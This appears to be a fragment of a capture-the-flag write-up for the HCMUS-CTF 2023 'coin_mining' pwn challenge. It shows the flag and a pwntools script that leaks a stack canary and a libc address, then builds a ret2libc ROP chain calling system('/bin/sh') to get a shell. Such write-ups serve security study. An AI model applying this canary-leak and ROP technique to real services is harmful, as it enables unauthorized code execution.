 ```HCMUS-CTF{pYt40n_4rE_s|U|Perrrrrrr_5ecureeeeeeeeeeee}```

payload = b"a"*(0x90 - 7) 
s.sendafter(b"Guess what coin I will give you: ", payload)
s.recvuntil(payload)
canary = s.recv(7)
print("canary :", canary[::-1].hex())
print(len(canary))


payload = b"a"*0x90 + b"aaaaaaaa"

ret_instruction_addr = 0x0000000000021b97
s.sendafter(b"Try again: ", payload)
s.recvuntil(payload)

addr = int.from_bytes(s.recv(6), "little")
print("leak address:", hex(addr))
libc_base = addr - ret_instruction_addr

pop_rdi = p64(0x000000000002155f + libc_base)
bin_sh = p64(libc_base + 0x1b3e9a)

system = p64(libc.symbols["system"] + libc_base)
ret = p64(0x000000000004f46c + libc_base)

payload = b"a"*(0x90 - 8) + b"\x00" + canary + b"aaaaaaaa" + pop_rdi + bin_sh + ret +  system
s.sendafter(b"Try again: ", payload)
s.sendafter(b"Try again: ", b"notHMCUS-CTF{a_coin_must_be_here}\n\x00")
s.recvuntil(b"Well done! Here is your coin!\n")
s.sendline(b"ls")
s.interactive()
```
![](https://github.com/sinkthemall/Cryptography_Writeup/blob/main/HCMUS_CTF/2023/coin_mining/success.png)
